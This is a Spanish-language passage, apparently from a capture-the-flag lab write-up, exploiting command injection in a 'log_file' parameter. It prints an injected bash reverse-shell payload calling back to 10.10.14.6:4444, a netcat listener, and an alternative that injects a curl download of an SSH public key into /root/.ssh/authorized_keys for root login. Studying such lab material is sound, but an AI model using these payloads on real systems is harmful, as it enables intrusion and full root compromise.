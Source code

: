 ```
log_file=/etc/passwd; bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.6/4444+0>%261' #&analyze_log=
```

Iniciamos el listener y a continuación lanzamos la petición:

```bash
nc -nlvp 4444
```
![image](https://github.com/user-attachments/assets/dc21b405-d530-4670-b9e0-ee5c993ff391)


![image](https://github.com/user-attachments/assets/c20e1dc5-6e71-4321-b4a6-d8b0538a480a)


### Opción alternativa, sin usar reverse shell

Como alternativa, podemos generar un par de claves ssh usando la herraienta ssh-keygen sin definir contraseña:

```bash
sudo ssh-keygen -t rsa -b 4096 -f /root/.ssh/id_rsa -N ""
```

A continuación, disponibilizamos  el archivo de clave pública id_rsa.pub en un servidor web con python en nuestro host de ataque:

```bash
python3 -m http.server 80
```

A continuación usando curl o wget, descargarmos el archivo .pub en el directorio /root/.ssh/authorized_keys

```
log_file=/etc/passwd; curl 10.10.14.6/id_rsa.pub -o /root/.ssh/authorized_keys #&analyze_log=
```


![image](https://github.com/user-attachments/assets/5f730277-bae2-40bb-b31f-b9f25f6af9e7)


Si todo ha ido bien, deberíamos poder conectarnos como root al host víctima sin indicar contraseña:

```bash
ssh root@10.10.11.28
```

![image](https://github.com/user-attachments/assets/747ab895-dc68-43e8-85b4-e6f5c9ee2c0e)
